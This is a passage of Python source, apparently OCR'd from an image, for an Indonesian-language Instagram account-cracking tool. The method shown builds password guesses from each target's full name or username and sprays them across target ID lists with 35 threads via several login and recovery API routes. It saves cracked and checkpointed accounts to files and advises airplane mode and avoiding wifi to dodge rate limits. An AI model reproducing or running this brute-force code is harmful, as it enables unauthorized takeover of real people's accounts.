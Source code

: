    #-> Password
   def Exekusy2(self):
       self.KeyCek = self.cek_key(True)
       self.MyRic('\
[white]01. Sandi Full Name 1-5  03. Sandi Full Name,Username 1-5\n\
02. Sandi Full Name 1-6  04. Sandi Full Name 1-5 + Manual',True)
       sandine = Console(style=temane[0]).input(f'   └──> ')
       if sandine not in ['1','01','2','02','3','03','4','04']:
          print(f'\n{P}[{K2}!{P}] {K2}Pilihan Tidak Tersedia')
          self.Exekusy2()

       elif sandine in ['4','04']:
          sandi_tambahan = []
          self.MyRic('[white]Gunakan Koma Untuk Pemisahan, Pastikan sandi harus 6/Lebih!',True)
          tambahan = Console(style=temane[0]).input(f'   └──> ').split(',')
          for self.tambah in tambahan:
              if len(self.tambah)<=5:pass
              else:sandi_tambahan.append(self.tambah)

       self.MyRic(f'\
[white]Akun OK Di Simpan Di Folder : data/OK-Instagram-{file_ok}\n\
Akun CP Di Simpan Di Folder : data/CP-Instagram-{file_ok}\n\
- Mainkan Mode Pesawat Jika Proses Cepat 400 ID Slow 200 -')

       self.mayb = self.OverPower()
       with ThreadPoolExecutor(max_workers=35) as exe:
          for data in self.id:
              try:
                  idf, nama = data.split('|')
                  pw = self.pwdc(nama, idf, sandine)
                  if sandine == '4' or sandine == '04':
                     pw = pw + sandi_tambahan
                  else:pw = pw
                  if '1' in self.MethodType:
                      exe.submit(self.ApiThreads, idf, pw)
                  elif '2' in self.MethodType:
                      exe.submit(self.Api, idf, pw)
                  elif '3' in self.MethodType:
                      exe.submit(self.ApiRecovery, idf, pw)
                  else:
                      exe.submit(self.SmartLockGoogle, idf, pw)
              except:pass

       if self.ResultSuccess !=0 or self.ResultChechpoint !=0:
          self.total = self.ResultSuccess + self.ResultChechpoint
          print(f'\n\n{P} Crack Selesai\n\n Anda Mendapatkan {self.total} akun\n Akun OK : {H}{self.ResultSuccess}{P}\n Akun CP : {K2}{self.ResultChechpoint}{P}\n\n Terima Kasih Telah Menggunakan Tools Ini\n \t- {H}Rikod ahli {P}-')
          exit(0)
       else:
          print(f'\n\n{P} Crack Selesai\n{K2} Ups Anda Tidak Mendapatkan Hasil Kali Ini\n{K2} Silahkan Ganti Target Dan Pastikan Tidak Menggunakan Wifi')
          exit(1)
